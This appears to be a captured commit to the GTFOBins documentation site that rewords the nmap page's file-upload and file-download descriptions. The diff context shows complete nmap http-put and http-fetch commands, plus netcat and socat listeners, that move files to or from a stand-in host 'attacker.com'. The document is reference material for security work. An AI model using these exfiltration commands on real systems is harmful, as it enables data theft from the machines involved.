

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 1400 px high, scrolled down 1125 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Reword file upload/download descriptions

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -39,13 +39,13 @@ functions:
         end;c:close();f:close();' > $TF
         nmap --script=$TF
   file-upload:
-    - description: Send a file to a TCP port. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
+    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
       code: |
         RHOST=attacker.com
         RPORT=8080
         LFILE=file_to_send
         nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
-    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
       code: |
         export RHOST=attacker.com
         export RPORT=12345
@@ -61,14 +61,14 @@ functions:
         t:close();' > $TF
         nmap --script=$TF
   file-download:
-    - description: Fetch remote file sent to a local TCP port. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
+    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
       code: |
         RHOST=attacker.com
         RPORT=8080
         TF=$(mktemp -d)
         LFILE=file_to_save
         nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
-    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
+    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
       code: |
         export LPORT=12345
         export LFILE=file_to_save
```
Also changed, not shown: _gtfobins/lua.md (+2 -2 lines), _gtfobins/nc.md (+2 -2 lines), _gtfobins/openssl.md (+1 -1 lines), _gtfobins/rvim.md (+2 -2 lines), _gtfobins/vim.md (+2 -2 lines).
